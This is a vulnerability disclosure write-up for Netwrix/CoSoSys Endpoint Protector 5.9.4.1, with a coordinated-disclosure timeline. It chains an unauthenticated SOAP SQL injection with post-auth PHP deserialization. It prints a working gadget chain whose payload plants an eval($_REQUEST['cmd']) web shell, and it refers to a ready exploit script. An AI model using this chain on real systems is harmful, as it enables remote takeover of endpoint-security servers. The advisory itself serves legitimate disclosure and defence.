







## 0x01 Affected Version

test version:  5.9.4.1

## 0x02 Vulnerability Details

**Unauthorized SQL injection**

SoapControllerMySQL



Searching for public function with parameters found only

- isSoapAuth
- Ping
- processActionList
- Reprovision
- Connected
- UploadLogEnd

Ping



SQL injection exists when inserting or updating

Stack injection is possible. This vulnerability can be exploited to add arbitrary users and inject malicious data into the database.



Access is only possible through SSL verification



You can register and obtain a certificate through /wsf/webservice.php, and then request the obtained certificate.

**Post-Auth deserialization Remote code execution**

The decrypted code is a bit messy, but the relevant logic can still be guessed

ADOperationLogPeer::getFormattedMessage

Deserialization exists



ad_logActions::executeList calls the getFormattedMessage method



Therefore, you only need to insert malicious data into the adoperation_log table, and deserialization can be triggered during list query to achieve remote code execution.

gadget

```php
<?php

class Net_SSH1
{
    var $bitmap = 1;
    var $crypto;
    public function __construct($a)
    {
        $this->crypto = $a;
    }
}

class Crypt_DES
{
    var $block_size;
    var $inline_crypt;
    var $use_inline_crypt = 1;
    var $changed = 0;
    var $engine = 1;
    var $mode = 1;

    public function __construct($t)

    {
            $this->block_size = '1){}}}; ob_clean();' . $t . 'die(); ?>';
            $this->changed=1;
            $this->engine = "xxxxx";
    }
}
class Crypt_RSA{

}
$code= "eval(\$_REQUEST['cmd']);";
$obj = [new Crypt_RSA(),
        new Net_SSH1(
           new Crypt_DES($code)
        )
    ];
echo base64_encode(serialize($obj));
```

Combining two vulnerabilities can achieve unauthorized remote code execution.

You can just change the directory and run netwrix_cososys_endpoint_protector_sqli_rce.py



## 0x03 Disclosure Timeline

- **2025-05-17** – Initial report submitted
- **2025-05-17** – Vendor confirmed receipt; triage underway, next update in 3 business days
- **2025-05-30** – Requested update
- **2025-06-16** – Requested update
- **2025-06-27** – Vendor confirmed the vulnerability; disclosure delayed until patch release
- **2025-08-14** – Requested update
- **2025-08-14** – Requested update (no patch released; disclosure window exceeded 90 days; public disclosure may follow if no fix by 2025-09-14)
- **2025-09-15** – The supplier replied that the work order was closed by mistake and the request was postponed to October 1
- **2025-09-29** – Vendor response: CVE-2025-59796 (security advisory will be released around October 20)
- **2025-10-30** – Vendor release security advisories
